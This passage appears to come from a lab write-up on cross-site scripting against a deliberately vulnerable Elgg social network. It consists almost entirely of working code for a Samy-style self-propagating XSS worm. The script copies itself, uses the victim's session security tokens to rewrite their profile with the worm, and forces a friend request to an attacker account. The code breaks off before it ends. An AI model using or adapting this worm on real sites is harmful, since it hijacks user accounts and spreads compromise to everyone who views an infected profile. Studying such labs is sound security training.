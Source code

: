 ![](images/3-7-3.png)

## 3.8 Writing a Self-Propagating XSS Worm

```html
<script id="worm" type="text/javascript">
window.onload = function(){
    var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>";
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
    var userName=elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    var content="name="+userName+guid+ts+token+"&description=<p>Samy+is+my+Hero!</p>"+wormCode+"&accesslevel%5Bdescription%5D=2";
    var samyGuid=47;
    if(elgg.session.user.guid!=samyGuid)
    {
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        var sendurl="http://www.xsslabelgg.com/action/profile/edit";
        Ajax.open("POST",sendurl,true);
        Ajax.setRequestHeader("Host","www.xsslabelgg.com");
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);
    }
    var getUrl = "http://www.xsslabelgg.com/action/friends/add?friend=47"+ts+token;
    var Ajax2=new XMLHttpRequest();
    Ajax2.open("GET",getUrl,true);
    Ajax2.setRequestHeader("Host","www.xsslabelgg.com");
    Ajax2.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
```